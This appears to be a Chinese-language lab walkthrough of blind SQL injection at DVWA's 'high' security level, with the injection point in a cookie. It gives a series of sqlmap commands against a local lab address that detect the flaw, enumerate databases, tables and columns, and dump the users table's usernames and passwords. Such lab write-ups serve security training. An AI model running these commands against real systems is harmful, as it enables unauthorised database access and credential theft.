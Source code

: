 

#### Security High

注入点在cookie中

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/cookie-input.php" --data "id=1&Submit=Submit" --second-u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/" --cookie="id=1; PHPSESSID=c5emugcincc74avtcvj0f65mns; security=high" --batch
```

![image-20250219154115383](../../_media/image-20250219154115383.png)

爆库：

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/cookie-input.php" --data "id=1&Submit=Submit" --second-u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/" --cookie="id=1; PHPSESSID=c5emugcincc74avtcvj0f65mns; security=high" --dbs
```

爆表：

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/cookie-input.php" --data "id=1&Submit=Submit" --second-u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/" --cookie="id=1; PHPSESSID=c5emugcincc74avtcvj0f65mns; security=high" -D dvwa --tables
```

爆列：

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/cookie-input.php" --data "id=1&Submit=Submit" --second-u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/" --cookie="id=1; PHPSESSID=c5emugcincc74avtcvj0f65mns; security=high" -D dvwa -T users --columns
```

爆字段：

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/cookie-input.php" --data "id=1&Submit=Submit" --second-u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/" --cookie="id=1; PHPSESSID=c5emugcincc74avtcvj0f65mns; security=high" -D dvwa -T users -C "user,password" --dump
```

盲注一般所花的时间较长，不管是布尔盲注还是时间盲注都是要不断在每一个位置上循环遍历所有字符的！
